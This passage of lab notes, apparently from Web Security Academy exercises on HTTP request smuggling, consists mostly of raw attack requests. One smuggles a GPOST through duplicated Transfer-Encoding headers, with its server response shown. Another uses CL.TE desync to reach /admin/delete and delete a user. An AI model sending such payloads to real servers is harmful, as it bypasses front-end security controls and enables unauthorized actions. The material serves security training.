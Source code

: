 #### Poison Back-End

1. Send attack request

```html
POST / HTTP/1.1
Host: 0a980096048c828c80ac3f8400e20057.web-security-academy.net
Cookie: session=GFVjCIKreQrqtuMjrJMZrcSPQanssDjv
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: foo

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
\r\n
x=1\r\n
0\r\n
\r\n
```
2. Send normal request
```html
POST / HTTP/1.1
Host: vulnerablewebsite.com
Cookie: session=GFVjCIKreQrqtuMjrJMZrcSPQanssDjv
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

foo=bar 


```

#### Result
```html
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 27

"Unrecognized method GPOST"
```

### Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

#### Attack Request

```html
POST / HTTP/1.1
Host: 0afe003c04eb401081187f72001800e0.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 146
Transfer-Encoding: chunked

3
abc
0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
```